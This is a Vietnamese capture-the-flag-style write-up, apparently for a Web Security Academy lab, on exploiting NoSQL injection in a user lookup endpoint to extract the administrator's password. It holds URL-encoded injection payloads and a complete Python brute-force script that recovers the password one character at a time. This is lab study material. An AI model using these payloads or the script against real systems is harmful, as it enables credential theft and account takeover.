 ![image](https://github.com/user-attachments/assets/9d72021b-8a0d-4b69-b170-26c8f6e8172e)

![image](https://github.com/user-attachments/assets/1f7436d0-3eb6-4247-a714-114097424792)

Đầu tiên nháy để confirm có bị nosqli.

![image](https://github.com/user-attachments/assets/15d96fa9-ed3c-46da-8333-50cd163ac902)

Tiếp theo thì ta tiếp tục cho nó luôn đúng và đúng syntax để nó nhả data cho mình :">. lưu ý phải && == nhé, tại vì nó đang là operator.

![image](https://github.com/user-attachments/assets/2d12477e-80da-4837-a086-33b0ca35d8d0)

Đó nên là chắc chắn nó bị nosqli rồi nhé.

![image](https://github.com/user-attachments/assets/400152d0-2ad4-4cbd-85ae-4474eee632e7)

```
administrator'+%26%26+this.password.length+%3d%3d+§1§+||+'1'%3d%3d'2
```

Tiếp theo chúng ta test xem thì biết được rằng user `administrator` password nó có 8 kí tự.

Sau khi đã biết rồi thì bruteforce các kí tự đầu tiên thôi :3.

![image](https://github.com/user-attachments/assets/2fbb2614-ba38-4fe2-b429-90e081ded3bf)

```
administrator'+%26%26+this.password[0]+%3d%3d+'§a§
```

Sau khi thử thì kí tự đầu tiên của password là `n`

Thì cũng vẫn có 2 cách, cách 1 là tiếp tục bruteforce passwd, cách 2 là viết script thôi.

![image](https://github.com/user-attachments/assets/9e6bacc6-4b14-49a6-9040-bdd1602a39a4)

```
import requests
import string

# Cấu hình request
URL = "https://0a8c0075034292238347378a0042001f.web-security-academy.net/user/lookup"
COOKIES = {
    "session": "aEswibgetaP5QxZ0MZI0UF16Z6Lh7VI0"
}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Accept": "*/*",
    "Referer": "https://0a8c0075034292238347378a0042001f.web-security-academy.net/my-account?id=wiener"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits
PASSWORD_LENGTH = 8  # Đã biết trước độ dài mật khẩu

def brute_force_password():
    password = ""
    
    for i in range(PASSWORD_LENGTH):  # Duyệt từng vị trí trong password
        for char in CHARSET:
            payload = f"administrator' && this.password[{i}]=='{char}"  # Inject NoSQL
            params = {"user": payload}
            
            print(f"[*] Đang thử ký tự thứ {i+1}: {char}")  # Debug
            response = requests.get(URL, headers=HEADERS, cookies=COOKIES, params=params)
            
            if "administrator" in response.text:
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                break
    
    return password

# Chạy script
final_password = brute_force_password()
print(f"[+] Password cuối cùng: {final_password}")

input("Clap")
```

![image](https://github.com/user-attachments/assets/9f8ce96b-4c88-4d1e-8c43-1a6362ecca46)

Vậy là thành công.
